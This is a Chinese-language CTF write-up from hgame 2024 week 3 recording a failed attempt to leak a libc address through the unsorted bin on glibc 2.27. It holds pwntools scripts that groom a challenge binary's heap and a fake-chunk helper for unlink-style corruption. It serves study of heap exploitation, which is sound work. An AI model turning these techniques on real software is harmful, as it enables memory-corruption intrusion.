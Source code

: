 ```yaml
---
date: 2024-2-23
tag:
  - tag
  - heap
---
```

# 记一次失败的UnsoretedBin 泄露libc（2024hgameWeek3 [1]）

- 什么都pwn只会害了你

> 2024 hgame的week3的一道题 libc版本2.27 虽然这个思路失败了 但是觉得还是学了东西 就记录下来

## 题目

- main函数

​		![main](https://awaqwqa.github.io/img/hgame/week3/off_by_one/main.png)

- add函数

  ![add](https://awaqwqa.github.io/img/hgame/week3/off_by_one/add.png)

- delete函数

  ![delete](https://awaqwqa.github.io/img/hgame/week3/off_by_one/delete.png)

- show函数

  ![show](https://awaqwqa.github.io/img/hgame/week3/off_by_one/show.png)

## 原理

- 首先libc版本为2.27 引入了`tcache`并且没有引入bk随机数安全检查机制
- `tcache bin`的范围为:`0x20-0x420`
- `tcache bin`单个区间大小的链表长度最长为7个

- 然后根据add函数的逻辑 我们一次性只能new一个0xff大小的chunk 显然不足以超过`tcache bin`的大小 所以我们得先填充满tcache

- `unsorted bin`是一个双向链表 

  - unsorted bin中第一个chunk的bk和最后一个chunk的fd都指向main_arena+48（32位）或main_arena+88（64位）的位置
  - 所以当unsortedbin只有一个chunk的时候那么fd和bk都指向了`main_arena+88`的位置
  - 我们先把unsorted bin大小的chunk申请下来 然后再free 让fd和bk填充进去 然后malloc要回来

## 实践

```python
from pwn import *
# r = process("./vuln")
r = gdb.debug("./vuln","b *main+33")
class FakeChunk:
    def __init__(self):
        self.prev_size = p64(0)
        self.size = p64(0)
        self.fd = p64(0)
        self.bk = p64(0)
        self.payload = b""
        self.next_chunk_prev_size = p64(0)
    def get_chunk_str(self):
        chunk = b""
        chunk += self.prev_size
        chunk += self.size
        chunk += self.fd
        chunk += self.bk
        chunk += self.payload
        return chunk
    # 构造fake chunk 只需要:fake chunk的size 以及指针原本的位置
    def set_chunk(self,size,ptr):
        self.prev_size = p64(0)
        self.size = p64(size +1)
        self.fd = p64(ptr-0x18)
        self.bk = p64(ptr-0x10)
        self.next_chunk_prev_size = p64(size)
        self.payload = (size - 32)*b"a" + self.next_chunk_prev_size
        print(f"构造的chunk:\n\tprev_size:0\n\tsize:{ size  }\n\tfd:{ hex(size +1) }\n\tbk:{ hex(ptr-0x10) }\n\tpatload长度:{ len(self.payload) }\n\t总长度:{ len(self.get_chunk_str()) }")

def waite_menu():
    print(r.recvuntil(b"Your choice:"))
def show(index):
    waite_menu()
    r.sendline(b"2")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
def delete(index):
    waite_menu()
    r.sendline(b"3")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
    print(f"------------------\n删除index为{ index }的chunk\n------------------")
def add(index,size,content):

    waite_menu()
    r.sendline(b"1")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
    print(r.recvuntil(b"Size: "))
    r.sendline(str(size))
    print(r.recvuntil(b"Content: "))
    r.send(content)
    print(f"------------------\n添加index为{ index }的chunk\n------------------")

# fake_chunk = FakeChunk()
# fake_chunk.set_chunk(size=0xa8,)
for i in range(10):
    print("i :",i)
    add(i,0xa0,b"\x00")
for i in range(8):
    print("i :",i)
    delete(i)
for i in range(8):
    print("i :",i)
    add(i, 0xa0, b"\x00")
r.interactive()
```

- 先malloc 10个chunk(大于8个就行) 
  - 因为如果unsorted bin的chunk和`top chunk`相邻会被直接合并 所以我们需要一个`alloced chunk`挡在`top chunk`前

- 然后free 8个chunk 让`tcache bin`的位置填满 然后malloc 8个 让`tcache bin`先被消耗掉 
  - 因为当`tcache chunk`有大小合适的 chunk的时候 优先取 `tcache chunk`然后再去寻找`unsorted bin`

- 然后我发现一个状况 就是新获得`unsroted bin`中的chunk fd和bk都被清空了

  ![empty](https://awaqwqa.github.io/img/hgame/week3/off_by_one/unsortedBin.png)

- 并且通过测试发现只要是刚好要malloc的chunk大小如何符合 这个`unsortedbin`的chunk的大小就会被清空
- 所以尝试其他思路

### 修改思路

```python
from pwn import *
# r = process("./vuln")
r = gdb.debug("./vuln","b *main+33")
class FakeChunk:
    def __init__(self):
        self.prev_size = p64(0)
        self.size = p64(0)
        self.fd = p64(0)
        self.bk = p64(0)
        self.payload = b""
        self.next_chunk_prev_size = p64(0)
    def get_chunk_str(self):
        chunk = b""
        chunk += self.prev_size
        chunk += self.size
        chunk += self.fd
        chunk += self.bk
        chunk += self.payload
        return chunk
    # 构造fake chunk 只需要:fake chunk的size 以及指针原本的位置
    def set_chunk(self,size,ptr):
        self.prev_size = p64(0)
        self.size = p64(size +1)
        self.fd = p64(ptr-0x18)
        self.bk = p64(ptr-0x10)
        self.next_chunk_prev_size = p64(size)
        self.payload = (size - 32)*b"a" + self.next_chunk_prev_size
        print(f"构造的chunk:\n\tprev_size:0\n\tsize:{ size  }\n\tfd:{ hex(size +1) }\n\tbk:{ hex(ptr-0x10) }\n\tpatload长度:{ len(self.payload) }\n\t总长度:{ len(self.get_chunk_str()) }")

def waite_menu():
    print(r.recvuntil(b"Your choice:"))
def show(index):
    waite_menu()
    r.sendline(b"2")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
def delete(index):
    waite_menu()
    r.sendline(b"3")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
    print(f"------------------\n删除index为{ index }的chunk\n------------------")
def add(index,size,content):

    waite_menu()
    r.sendline(b"1")
    print(r.recvuntil(b"Index: "))
    r.sendline(str(index).encode())
    print(r.recvuntil(b"Size: "))
    r.sendline(str(size))
    print(r.recvuntil(b"Content: "))
    r.send(content)
    print(f"------------------\n添加index为{ index }的chunk\n------------------")

# fake_chunk = FakeChunk()
# fake_chunk.set_chunk(size=0xa8,)
for i in range(10):
    print("i :",i)
    add(i,0xa0,b"\x00")
for i in range(8):
    print("i :",i)
    delete(i)

add(0,0x90,b"\x00")
r.interactive()
```

- 然后修改思路 最后的malloc变为malloc一个更小的chunk 这样机制会优先去寻找`unsortedbin`来切割出一个更小的chunk

## 结果

> 最终让fd和bk写上了main_arean+88的地址了 但是我忽略了 在写入内容的时候最后加了一个0导致我们没办法读出来 内容被阶段了 (悲)
